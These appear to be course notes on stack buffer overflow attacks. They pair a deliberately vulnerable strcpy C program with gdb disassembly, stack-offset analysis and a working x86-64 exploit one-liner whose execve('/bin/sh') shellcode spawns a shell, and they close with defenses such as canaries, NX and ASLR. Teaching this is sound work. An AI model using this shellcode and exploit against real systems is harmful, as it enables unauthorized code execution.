



<h1>2.3 Buffer Overflow Attack</h1>

<!--toc:start-->
- [1. Tasks](#1-tasks)
- [2. Programms](#2-programms)
  - [2.1. Target Programm (in C)](#21-target-programm-in-c)
  - [2.2. Disassembly commands](#22-disassembly-commands)
  - [2.3. vuln in assembler](#23-vuln-in-assembler)
  - [2.4. Exploit](#24-exploit)
- [3. What is a buffer overflow attack](#3-what-is-a-buffer-overflow-attack)
- [4. How it works (general)](#4-how-it-works-general)
  - [4.1. Schema](#41-schema)
- [5. Technical basics](#5-technical-basics)
  - [5.1. Nomenclature](#51-nomenclature)
  - [5.2. Basic assembler commands](#52-basic-assembler-commands)
  - [5.3. Basic assembly registers](#53-basic-assembly-registers)
  - [5.4. NOP sled](#54-nop-sled)
  - [5.5. Stack frame](#55-stack-frame)
  - [5.6. Stack pointer](#56-stack-pointer)
- [6. How the attack works (technical)](#6-how-the-attack-works-technical)
  - [6.1. Target program explained](#61-target-program-explained)
  - [6.2. Disassembly commands explained](#62-disassembly-commands-explained)
  - [6.3. Explanation of vuln](#63-explanation-of-vuln)
    - [6.3.1. In short](#631-in-short)
  - [6.4. Analysis of stack frame](#64-analysis-of-stack-frame)
  - [6.5. Exploit explained](#65-exploit-explained)
    - [6.5.1. Shell code equivilant](#651-shell-code-equivilant)
- [7. Defense](#7-defense)
  - [7.1. Bounds Checking:](#71-bounds-checking)
  - [7.2. Canaries:](#72-canaries)
  - [7.3. NX (NX bit, No-Execute):](#73-nx-nx-bit-no-execute)
  - [7.4. ASLR (Address Space Layout Randomization):](#74-aslr-address-space-layout-randomization)
    - [7.4.1. ASLR + PIE (Position Independent Executable):](#741-aslr-pie-position-independent-executable)
    - [7.4.2. RelRO (Relocation Read-Only):](#742-relro-relocation-read-only)
      - [7.4.2.1. GOT](#7421-got)
- [8. Sources](#8-sources)
<!--toc:end-->

# 1. Tasks

- Was ist ein buffer overflow attack?
- Ablauf
- Technische Grundlagen
- Verteidigungsmöglichkeiten

# 2. Programms

## 2.1. Target Programm (in C)

```c
#include <stdio.h>
#include <string.h>

void vuln(char* data) {
    char buffer[500];
    strcpy(buffer, data);
    return;
}

int main(int argc, char** argv) {
    vuln(argv[1]);
    return 0;
}
```

## 2.2. Disassembly commands

```sh
$ gdb main
...
(gdb) start
(gdb) disass
(gdb) disass vuln
```

## 2.3. vuln in assembler

```sh
sub $0x218,%rsp  sp=sp-536
mov %rdi,0x8(%rsp)  save parameter "data" (in rdi) on stack
mov 0x8(%rsp),%rdx  rdx=data
lea 0x10(%rsp),%rax  rax=sp+16
mov %rdx,%rsi  rsi (2nd par)=data
mov %rax,%rdi  rdi (1st par)=buffer=sp+16
call 0x1030 <strcpy@plt>
nop
add $0x218,%rsp
ret
```

## 2.4. Exploit

```sh
run $(python3 -c 'import sys;sys.stdout.buffer.write(b"\x90" * (520-32-64) + b"\x48\x31\xd2\ x48\x31\xf6\x48\xb8\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd8\x50\x48\x89\xe7\x48\x31\xc0 \x48\x83\xc0\x3b\x0f\x05" + b"\x41"*64 + b"\xfc\xdb\xff\xff\xff\x7f\x00\x00" + b"\0")')
```

# 3. What is a buffer overflow attack

A buffer overflow attack is a type of cyberattack where a program writes more data to a buffer, or a temporary storage area, than it was intended to hold.
This overflow of data can cause the excess data to overwrite adjacent memory locations, potentially leading to unpredictable behavior of the program or even allowing an attacker to execute malicious code.

# 4. How it works (general)

1. **Memory Allocation**: When a program allocates memory for a buffer, it sets aside a certain amount of memory space.
   This space is supposed to hold a specific amount of data.

2. **Input Data**: An attacker sends input data to the program, aiming to exceed the buffer's allocated space.
   This could be achieved by sending more data than the buffer can handle or by sending specially crafted data designed to exploit vulnerabilities in the program.

3. **Buffer Overflow**: If the program does not properly check the size of the incoming data, it may allow more data to be stored in the buffer than it can hold.
   This extra data can overflow into **adjacent memory** locations.
   A crucial piece of information stored on the stack is the **return address**, which tells the program where to jump back to after the function completes.

4. **Overwriting Data**: When the program processes the overflowing data, it gets written into memory beyond the buffer.
   This can overwrite the data on the stack, including the **return address**.

5. **Control Hijacking**: The attacker's carefully crafted data replaces the return address with the address of their malicious code.
   When the function finishes, the program execution jumps to the attacker's code instead of the legitimate code path.

6. **Execution of Malicious Code**: Once the attacker gains control of the program's execution flow, they can execute arbitrary code, which may result in various outcomes depending on the attacker's intentions.

## 4.1. Schema



# 5. Technical basics

## 5.1. Nomenclature

- **Stack:**

  - _Definition:_ A stack is a data structure that follows the Last In, First Out (LIFO) principle, where the last element added is the first one to be removed.
    It operates in a way similar to a stack of items, where you add and remove items from the top.
  - _Function:_ The stack is commonly used for managing function calls, storing local variables, and keeping track of execution flow in computer programs.

- **Registers:**
  - _Definition:_ Registers are small, fast storage locations within the CPU that store data temporarily during program execution.
    Each CPU architecture has a specific set of registers with defined purposes.
  - _Function:_ Registers are used to store intermediate data, operands for arithmetic operations, memory addresses, and control information.
    They play a crucial role in the execution of machine instructions and overall CPU performance.

## 5.2. Basic assembler commands

**sub** (subtract):

- Performs subtraction between two operands.
- Syntax: `sub source, destination`
- Subtracts the value in the source operand from the destination operand and stores the result back in the destination.

**mov** (move):

- Copies the value of one operand to another.
- Syntax: `mov source, destination`
- Copies the data from the source operand to the destination operand without any modifications.

**lea** (load effective address):

- Calculates the memory address of an operand and stores it in a register.
- Syntax: `lea operand, register`
- Often used to efficiently access memory locations by pre-calculating addresses once instead of performing calculations on the fly.
- Can also be used for address manipulation tasks.

**call** (call):

- Transfers program execution to a subroutine (function).
- Syntax: `call function_name`
- Pushes the return address (address of the instruction after the call) onto the stack and jumps to the subroutine's starting address.

**nop** (no operation):

- Performs no operation and occupies one instruction cycle.
- Syntax: `nop`
- Primarily used as a placeholder instruction (e.g., for timing loops or aligning code) or to prevent unintended code execution due to unused space.

**add** (add):

- Adds two operands and stores the result in a destination.
- Syntax: `add source, destination`
- Performs addition between the destination and source operands, storing the sum back in the destination.

**ret** (return):

- Returns from a subroutine (function).
- Syntax: `ret` (often implicit)
- Pops the return address from the stack (the address stored during the `call` instruction) and transfers program execution back to that address.
- Used to exit subroutines and continue execution after the function call.

## 5.3. Basic assembly registers

1. `%rdi`: Used for function arguments and holding pointers.
2. `%rsp`: Points to the top of the stack.
3. `%rdx`: General-purpose register.
4. `%rax`: Accumulator register, also used for function return values.

## 5.4. NOP sled

A NOP sled (short for no-operation sled) helps with buffer overflow attacks.
It's a string of harmless instructions inserted before the real attack code.

Normally, overwriting the program's instruction pointer (EIP) precisely is tricky.
A NOP sled acts like a buffer zone.
Even if the EIP lands a bit off, the program will just execute NOPs (which do nothing) until it reaches the actual malicious code at the end.
This makes the attack more reliable.

## 5.5. Stack frame

A stack frame is a temporary workspace in memory for a function call. It stores the function's arguments, local variables, and return address.
Imagine plates in a stack - new functions add a plate, finished functions remove one.
This keeps track of function calls and cleans up memory efficiently.

## 5.6. Stack pointer

A stack pointer is a CPU register that tracks the top of a "last in, first out" (LIFO) data structure in memory.
It helps the CPU find the most recently added data.

# 6. How the attack works (technical)

## 6.1. Target program explained

see [target code](111-target-programm-in-c)

**Code Functionality:**

- Takes user input from the second argument (argv[1]).
- Copies the input into a fixed-size buffer (buffer).

**Vulnerability:**

- strcpy might cause a buffer overflow if the input is too long.
- Attackers can exploit this to inject malicious code.

## 6.2. Disassembly commands explained

see [commands](112-disassembly-commands)

- `gdb main`: Starts GDB and loads the executable named `main`.
- `start`: Begins execution of the program, stopping at the `main` function.
- `disass`: Disassembles the currently executing function.
- `disass vuln`: Disassembles the function named `vuln`.

## 6.3. Explanation of vuln

This code snippet appears to be written in assembly language and performs the following operations:

1. **Allocates Stack Space:**

   - `sub $0x218,%rsp`: Subtracts 536 (0x218 in hexadecimal) from the stack pointer (%rsp). This allocates 536 bytes of space on the stack for the function's local variables.

2. **Saves Argument on Stack:**

   - `mov %rdi,0x8(%rsp)`: Moves the value of the first argument register (%rdi) to the stack. The first argument is typically passed in %rdi, and here it's being saved at an offset of 8 bytes from the stack pointer. This is likely to preserve the value of the argument for later use or to make space for other local variables.

3. **Loads Argument into Register:**

   - `mov 0x8(%rsp),%rdx`: Moves the value stored at the address 8 bytes from the stack pointer (%rsp) into the %rdx register. This is effectively retrieving the previously saved argument value.

4. **Allocates Buffer on Stack:**

   - `lea 0x10(%rsp),%rax` : Performs a Load Effective Address operation. It calculates the address 16 bytes (0x10) from the stack pointer and stores it in the %rax register. This creates a pointer to a buffer location on the stack.

5. **Copies Argument to Buffer:**

   - `mov %rdx,%rsi`: Moves the value from the %rdx register (which holds the argument value) into the %rsi register. %rsi is typically used as the source operand for the string copy instruction.
   - `mov %rax,%rdi`: Moves the address calculated in step 4 (pointing to the stack buffer) into the %rdi register. %rdi is typically used as the destination operand for the string copy instruction.
   - `call 0x1030 <strcpy@plt>`: Calls the `strcpy` function located at address 0x1030. This function likely resides in the Program Linkage Table (PLT) as indicated by the `@plt` symbol. `strcpy` is a standard library function used to copy strings. Here, it copies the argument string from the source (%rsi) to the destination buffer (%rdi).

6. **Nop (No Operation):**

   - `nop`: This instruction does nothing and is likely a placeholder or for padding purposes.

7. **Cleans Up Stack and Returns:**
   - `add $0x218,%rsp`: Adds 536 (0x218) back to the stack pointer. This deallocates the stack space that was reserved earlier.
   - `ret`: Returns from the function.

### 6.3.1. In short

```sh
sub $0x218,%rsp      Allocate space for local variables by moving the stack pointer
mov %rdi,0x8(%rsp)   Save the address of the parameter "data" on the stack
mov 0x8(%rsp),%rdx   Move the address of "data" into register rdx
lea 0x10(%rsp),%rax  Load the effective address of buffer (%rsp + 16) into rax
mov %rdx,%rsi        Move the address of "data" into the source index register rsi
mov %rax,%rdi        Move the address of buffer into the destination index register rdi
call 0x1030 <strcpy@plt>   Call the strcpy function to copy "data" into buffer
nop                  No operation (padding)
add $0x218,%rsp      Restore the stack pointer to its original position
ret                  Return from the function

```



## 6.4. Analysis of stack frame

536 bytes (0x218) are taken from stack, buffer begins at offset 16 from start of stack frame, so there are 520 bytes up to the return address (which was saved on the stack prior to the subroutine call). So the data we send after 520 arbitryary bytes overwrites the subroutines return address.

So this writes exactly 520 bytes, which is OK:

```sh
(gdb) run $(python3 -c 'import sys;sys.stdout.buffer.write(b"\x41" \* 519 + b"\0")')
```

And this is just one byte to much:

```sh
(gdb) run $(python3 -c 'import sys;sys.stdout.buffer.write(b"\x41" \* 519 + b"\01\0")')
```

## 6.5. Exploit explained

see [exploit code](114-exploit)

For more details on the shell code itself, see [lecture notes matejka](http://web275.142.hosttech.eu/htl/ITSI_5/01_buffer_overflow/03_shellcode.html).

```python
b"\x90" * (520-32-64) +                        Padding with NOP (0x90) to reach the return address
b"\x48\x31\xd2\x48\x31\xf6\x48\xb8\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd8\x50\x48\x89\xe7\x48\x31\xc0\x48\x83\xc0\x3b\x0f\x05" +   Shellcode
b"\x41" * 64 +                                  Padding to fill the buffer in the vulnerable program
b"\xfc\xdb\xff\xff\xff\x7f\x00\x00" +          Return address pointing to the beginning of the NOP sled
b"\x00"                                         Null terminator for potential string operations
```

_Our manipulated return address will point right into the nop sled, so it does not matter if the stack address shifts around by a few bytes._



[The graphic starts at the beginning of the previous char buffer[500]](243-explanation-of-vuln)

### 6.5.1. Shell code equivilant

```python
#include <unistd.h>

int main(void){
  execve("/bin/sh", NULL, NULL);
}
```

# 7. Defense

- Bounds checking
- Canaries
- NX (NX bit, no-execute)
- ASLR (Address space layout randomization)
  - ASLR + PIE (Position Independent Executable)
  - Full RelRO (Relocation Read-Only)

## 7.1. Bounds Checking:

- This is a programming technique where the code explicitly checks the size of data being copied into a buffer before performing the copy.
- If the data exceeds the buffer size, the program can raise an error or handle the situation gracefully, preventing the overflow.
- This requires careful coding and attention to detail from the programmer.
- Modern Runtime Systems do bounds checking automatically e.g. array index checking in C# (IndexOutOfRangeException) or Java (Array Index Out Of Bounds Exception).

## 7.2. Canaries:

- A canary is a random value placed right before the buffer on the stack.
- Before accessing data on the stack, the program checks the canary value.
- If the buffer overflows and overwrites the canary, its value will change.
- This alerts the program to a potential attack, allowing it to terminate safely.
- Exploitation is possible if the canary value can be found out and used in the buffer construction. A possible way that the target leaks the canary value is exploitation of a Information Leak (e.g. a format string exploit).

## 7.3. NX (NX bit, No-Execute):

- Hardware and operating system feature that marks specific memory regions (like the stack) as non-executable.
- Even if an attacker overflows a buffer and injects malicious code, the processor won't be able to execute it due to the NX flag.
- This uses a hardware feature of the MMU (memory management unit) which makes it possible to mark memory areas as non executable, so no execution of code is possible at these addresses.
- Most computing systems use virtual memory and memory protection based on MMU Features. Exceptions are most microcontrollers/embedded systems.
- For an explanation of the virtual memory see [lecture notes matejka](http://web275.142.hosttech.eu/htl/ITSI_5/01_buffer_overflow/06_nx_bit.html)
- Despite NX bit protection attacks are still possible.

## 7.4. ASLR (Address Space Layout Randomization):

- This technique randomizes the location of key program elements (code, stack, heap) in memory during program startup.
- This makes it much harder for attackers to predict where their injected code will land and makes crafting a successful exploit more difficult.

### 7.4.1. ASLR + PIE (Position Independent Executable):

- ASLR works best with PIE (Position Independent Executable) compiled programs.
- PIE allows code to run from any memory location because it uses relative addressing for function calls and data access.
- It allows executables to load at different memory addresses each time, making it harder for attackers to predict memory layouts and exploit vulnerabilities.
- This combination makes it even harder for attackers to target specific memory locations with their exploits.

### 7.4.2. RelRO (Relocation Read-Only):

- This technique makes certain parts of the program's memory layout, like function pointers in the Global Offset Table (GOT), read-only.
- This prevents attackers from overwriting these pointers and redirecting program flow to their malicious code.
- **Partial RelRO:** Marks only some sections, typically the Global Offset Table (GOT), as read-only after dynamic linking, offering partial protection against memory corruption attacks while leaving other sections potentially writable.
- **Full RelRO:** Marks all relevant sections as read-only after dynamic linking, providing comprehensive protection against memory corruption attacks.
  - Full RelRO provides a higher level of security but may require additional considerations, such as ensuring compatibility with certain libraries or debugging tools.

#### 7.4.2.1. GOT

The GOT (Global Offset Table) is a data structure that stores function addresses at runtime.
Attackers can exploit buffer overflows to overwrite GOT entries and redirect program flow to their malicious code.

# 8. Sources
- scripts 
